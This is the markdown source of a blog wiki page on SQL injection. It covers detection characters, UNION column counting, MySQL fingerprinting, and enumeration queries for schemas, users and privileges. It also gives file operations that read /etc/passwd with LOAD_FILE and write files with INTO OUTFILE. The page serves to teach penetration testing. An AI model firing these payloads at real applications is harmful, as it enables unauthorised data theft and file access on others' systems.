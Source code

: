 ```yaml
---
layout: post
title:  "SQL injection wiki"
date:   2023-09-05 17:08:00 +0200
categories: wiki
sticky: true
permalink: /wiki/sqli
---
```


* TOC
{:toc}

---

## What is SQL injection

A **SQL injection vulnerability** occurs when **unsanitized user input** is used inside a **SQL query**. It can occur in **login forms**, in search functionalities, or even in **HTTP headers**. This vulnerability can have several consequences, from private data being exfiltrated to **remote code execution**.

## How to detect

When a parameter that is used in a **SQL query** is found (such as a username in a login form) it can be tested to determine whether it is injectable or not. To do so one of the following payloads should be sent to verify it causes any error or behaviour change in the application:

| **Payload** | **URL encoded** |
|:-----------:|:---------------:|
|      \'     |       %27       |
|      \"     |       %22       |
|      #      |       %23       |
|      ;      |       %3B       |
|      )      |       %29       |

If an **error** occurs or the application's **behaviour changes**, then the parameter is **injectable**.

## UNION attack

If the output of a query is **visible** and there is an injectable parameter, **UNION attacks** are possible. However, some information has to be found.

### Finding out the number of columns

First of all, the number of columns returned by the query must be found.
There are two ways to do so:
1. Using the **ORDER BY** clause incrementally (*i.e.* injecting **ORDER BY 1**, then **ORDER BY 2**, then **ORDER BY 3**, ...) until an error occurs or the application does not show any output. The **last successful index** used is the number of columns returned by the query.
2. Using **UNION** incrementally (*i.e.* injecting **UNION NULL**, then **UNION NULL, NULL**, then **UNION NULL, NULL, NULL**, ...). The number of **NULLS** in the first (and only) successful query is the number of columns returned by the query.

After finding out how many columns are returned by the query it is necessary to determine which columns are shown on the **front-end**. To do so, junk data (such as **1** or **\'a\'**) may be used in each column and the front-end must be observed to determine **which** junk data is shown.

### Fingerprinting

Usually, if the webserver runs **Apache** or **Nginx** it is often running on **Linux**, therefore the **DBMS** is likely to be **MySQL**. The same applies to **IIS** webserver usually running **MSSQL** on **Windows**. However this is not always the case.

The following queries may be tried to infer the type of **DBMS** being attacked.

#### MySQL

|    **Payload**   |          **When to use**         | **Expected output** | **Wrong output** |
|:----------------:|:--------------------------------:|:-------------------:|:----------------:|
| SELECT @@version |  Full query output is available  |     DBMS version    |       Error      |
| SELECT POW(1, 1) | Only numeric output is available |          1          |       Error      |
|  SELECT SLEEP(5) |       Output is not visible      |  0 after 5 seconds  |     No delay     |

### Enumeration

#### MySQL

|        **Effect**       |                                                  **Query**                                                  |
|:-----------------------:|:-----------------------------------------------------------------------------------------------------------:|
|      List databases     |                             SELECT schema_name FROM information_schema.schemata;                            |
|  Print current database |                                              SELECT database();                                             |
|       List tables       |                       SELECT table_schema, table_name FROM information_schema.tables;                       |
| List columns in a table | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_name=\'TABLE_NAME\'; |
|    Print current user   |                      SELECT user(); SELECT current_user(); SELECT user FROM mysql.user;                     |
|    Is user superadmin   |                          SELECT super_priv FROM mysql.user WHERE user=\'USER_NAME\';                          |
|   Dump user privileges  |      SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee=\'USER_NAME\';      |

### File operations

#### MySQL

If the user has the **FILE** privilege they may **read files** from the underlying filesystem. To be able to **write files**, however, the global variable **secure_file_priv** must also not be enabled.

An empty **secure_file_priv** variable (*i.e.* **\'\'**) allows file operations **everywhere**. If a directory is set, file operations are only allowed in **such directory**. A **NULL secure_file_priv** variable **forbids** reads/writes **anywhere**.

|            **Effect**            |                                                                           **Query**                                                                           |
|:--------------------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|             Read file            |                                                                SELECT LOAD_FILE(\'/etc/passwd\');                                                               |
| Determine secure_file_priv value | SHOW VARIABLES LIKE \'secure_file_priv\'; <br> SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name=\'secure_file_priv\'; |
|           Write to file          |                                                            SELECT \"Hello World!\" INTO OUTFILE \'/path/to/file\';                                                           |
